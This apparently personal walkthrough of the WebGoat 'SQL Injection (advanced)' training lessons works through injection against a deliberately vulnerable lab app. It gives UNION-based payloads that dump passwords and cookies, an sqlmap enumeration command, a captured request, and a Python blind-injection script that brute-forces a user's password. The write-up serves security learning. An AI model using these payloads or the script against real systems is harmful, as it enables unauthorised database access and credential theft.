






<div id="main" class="s-content__main large-8 column">

    <article class="entry">

        <header class="entry__header">

            <h2 class="entry__title h1">
                SQL Injection (advanced)
            </h2>         
        </header>
        
        <div class="entry__content">
            <h4>Try It! Pulling data from other tables</h4>
            <p>Using what we learned from SQL Injection in the last section. Here we need to get all the data from another table using one of many ways to get Dave's password.</p>
            <p>Is seems just using a SELECT statement will work:</p>
            <code>'; SELECT * FROM user_system_data; --</code>
            <p>That will give us the answer, but the Note says that there a multiple ways to solve this. Let's use the UNION statement.</p>
            <code>Dave' UNION SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data; --</code>
            <p>If we look at the user_data table, we see that there are seven columns. That is why we need the three additional <code>null</code>'s on the end of the query.</p>
            <p>Now we can just enter the password into the form.</p>

            <h4>Page 5, Blind SQL Injection</h4>
            <p>Now, in this challenge we are just given a login form and asked to login as Tom. This is a culmination of everything that we have learned thus far.</p>
            <p>Trying out the login page I didn't get anywhere...</p>
            <p></p>
            <p></p>
            <p></p>
            <p>There is a registration tab, let's click on that and see what we can get. Using Burp Suite, we can capture the PUT request as a txt document and run that through SQLMAP.</p>
            <p>   
                <code>
                    PUT /WebGoat/SqlInjectionAdvanced/challenge HTTP/1.1 <br>
                    Host: 192.168.100.14:8080<br>
                    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0<br>
                    Accept: */*<br>
                    Accept-Language: en-US,en;q=0.5<br>
                    Accept-Encoding: gzip, deflate<br>
                    Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br>
                    X-Requested-With: XMLHttpRequest<br>
                    Content-Length: 89<br>
                    Origin: http://192.168.100.14:8080<br>
                    Connection: close<br>
                    Referer: http://192.168.100.14:8080/WebGoat/start.mvc<br>
                    Cookie: JSESSIONID=hWHYu4jEFuruvbJDIW2DNuYtys20mBVfF0nLdWEH<br>
                    <br>
                    username_reg=Tom1&email_reg=aaa%40test.com&password_reg=qwerty&confirm_password_reg=qwerty
                </code>
            </p>
            <p></p>
            <p>It looks like the parameter <code>username_reg</code> is vulnerable to <a href="https://github.com/sqlmapproject/sqlmap/wiki/Techniques">boolean-based blind</a> SQL Injection!</p>
            <p></p>
            <p>Now we need to find the name of the database tables before we can continue. Running SQLMAP with <code>--dbs</code> and <code>--no-cast</code> flags should return the database names</p>
            <p><code>sqlmap -r Documents/WebGoat/register.txt -p username_reg -v 1 --dbs --no-cast</code></p>
            <p></p>
            <p>OK, to be honest, I got pretty lost at this point. I looked up other tutorials to find out what they did. Most of them continued to use SQLMAP to find the tables in the database. Whenever I tried to do this, SQLMAP just said no tables found. However, I did find a nifty Python script that finds the password for you.</p>
            <p>
                <code>
                    import json <br> 
                    import requests  <br>
                    <br>
                    def sql_injection_advance_5():<br>  
                        alphabet_index = 0  <br>
                        alphabet = 'abcdefghijklmnopqrstuvwxyz'  <br>
                        password_index = 0 <br> 
                        password = '' <br> 
                        <br>
                        headers = {  <br>
                            'Cookie': "JSESSIONID=Ey8-dfU_9_VdsFczC5-fYDEd5YxsOBSsXpG4pc7o",  <br>
                        }  <br>
                        <br>
                        while True:  <br>
                            payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index]) <br> 
                            <br>
                            data = {  <br>
                                'username_reg': payload,  <br>
                                'email_reg': 'a@a',  <br>
                                'password_reg': 'a',  <br>
                                'confirm_password_reg': 'a' <br> 
                            }  <br>
                            <br>
                            r = requests.put('http://192.168.100.14:8080/WebGoat/SqlInjectionAdvanced/challenge', headers=headers, data=data) <br> 
                            <br>
                            try:  <br>
                                response = json.loads(r.text) <br> 
                            except:  <br>
                                print("Wrong JSESSIONID, find it by looking at your requests once logged in.")<br>  
                                return <br> 
                                <br>
                            if "already exists please try to register with a different username" not in response['feedback']: <br> 
                                alphabet_index += 1  <br>
                                if alphabet_index > len(alphabet) - 1:  <br>
                                    return  <br>
                            else:  <br>
                                password += alphabet[alphabet_index] <br> 
                                print(password)  <br>
                                alphabet_index = 0  <br>
                                password_index += 1  <br>
                                <br>
                    sql_injection_advance_5()<br>
                </code>
                </p>

        </div> 

    </article> <!-- end entry -->

   

</div> <!-- end main -->
